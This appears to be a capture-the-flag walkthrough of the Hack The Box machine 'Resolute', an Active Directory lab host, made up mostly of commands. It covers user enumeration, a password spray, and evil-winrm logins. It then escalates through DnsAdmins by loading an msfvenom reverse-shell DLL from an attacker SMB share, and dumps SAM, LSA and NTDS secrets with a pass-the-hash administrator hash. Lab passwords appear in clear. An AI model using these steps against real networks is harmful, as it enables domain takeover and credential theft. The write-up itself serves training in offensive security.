

# Summary


## about target

tip:  10.129.

hostname:  Resolute

Difficulty:  Medium


## about attack

+ search the hide  dir/files, especially the root dir.
+ dnsadmin privesc exploit. 


**attack note**

```bash
resolute / 10.129.96.155

PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-12-12 12:49:09Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49686/tcp open  msrpc        Microsoft Windows RPC
49729/tcp open  msrpc        Microsoft Windows RPC

---- Interesting 
Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local)
marko:Welcome123! (wrong pwd)
melanie:Welcome123!

ryan:Serv3r4Admin4cc123!

---- Enum
# enum 4 linux, found users and marko's pwd
crackmapexec smb $tip -u '' --pass-pol
enum4linux -a $tip | tee enum4linux.log

cat userenum.txt | cut -d " " -f 1 | cut -d "[" -f 2 | cut -d "]" -f 1  > domainuser.lis

# asrepoast, no found.
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip megabank.local/ -format hashcat -outputfile asreproast.hash

# password sparay, melanie pwned.
echo 'Welcome123!' > password.list
crackmapexec smb $tip -u domainuser.list -p password.lis

# check password
crackmapexec smb $tip -u melanie -p 'Welcome123!' --shares
crackmapexec winrm $tip -u melanie -p 'Welcome123!'

---- Exploit melanie
evil-winrm -u melanie -p 'Welcome123!' -i $tip

# ls -force, hide dir and file; found ryan password.
cd \
ls -force 

# connect to ryan, no share found.
## ryan member of dnsadmin
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i $tip

whoami /all

---- System
ls `pwd`
# exploit dnsadmin
msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' -f dll -o adduser.dll

iwr -uri http://10.10.14.90/adduser.dll -outfile add.dll

dnscmd  /config /serverlevelplugindll c:\temp\add.dll
dnscmd  /config /serverlevelplugindll \\10.10.14.90\share\adduser.dll
dnscmd  /config /serverlevelplugindll \\10.10.14.90\share\rev.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns

# reconnect via evil-winrm, got admin

# dump hash
## failed.
secretsdump.py -just-dc megabank.local/ryan:'Serv3r4Admin4cc123!'@$tip

cme smb $tip -u ryan -p 'Serv3r4Admin4cc123!' --ntds

# only local hash, dump with administrator hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --sam

# got cleartext password, dump from lsass.exe
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --lsa

# got dc user hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds

# wrong argument.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds-history

```


# Enum

## nmap scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip

export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT      STATE SERVICE      VERSION
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2022-12-12 12:49:09Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49686/tcp open  msrpc        Microsoft Windows RPC
49729/tcp open  msrpc        Microsoft Windows RPC
```


## ad enum

```bash
# enum 4 linux, found users and marko's pwd
crackmapexec smb $tip -u '' --pass-pol
enum4linux -a $tip | tee enum4linux.log
```

found users and domain name.

Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local)


save users, asrepoast attack.  No found.

```bash
cat userenum.txt | cut -d " " -f 1 | cut -d "[" -f 2 | cut -d "]" -f 1  > domainuser.lis

# asrepoast, no found.
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip megabank.local/ -format hashcat -outputfile asreproast.hash
```


check enum4linux log, found password.  Welcome123!




Password sparay.

```bash
# password sparay, melanie pwned.
echo 'Welcome123!' > password.list
crackmapexec smb $tip -u domainuser.list -p password.list

melanie:Welcome123!
```


check the creds, correct password and able to connect to winrm.


# Foothold

melanie, winrm.

```bash
evil-winrm -u melanie -p 'Welcome123!' -i $tip
```


## enum melanie

nothing found, winpeas and bloodhound.


check the walkthrough, found hide file, c:\

```bash
# ls -force, hide dir and file; found ryan password.
cd \
ls -force 
```


## enum ryan

Ryan is member of dnsadmin.


also found in bloodhound.


# Privesc-dnsadmin

generate payload.

```bash
# exploit dnsadmin
# msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' -f dll -o adduser.dll

msfvenom -p windows/x64/shell_reverse_tcp LHOST=$kip LPORT=443 -f dll -o rev.dll

# smb share
smbserver.py -smb2support share ./ &

dnscmd  /config /serverlevelplugindll \\10.10.14.90\share\rev.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns
```

got system shell.


add user also works. but will be cleaned quickly.


dump creds.

```bash
# only local hash, dump with administrator hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --sam

# got cleartext password, dump from lsass.exe
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --lsa

# got dc user hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds

# wrong argument.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds-history
```


## proof

```bash


```


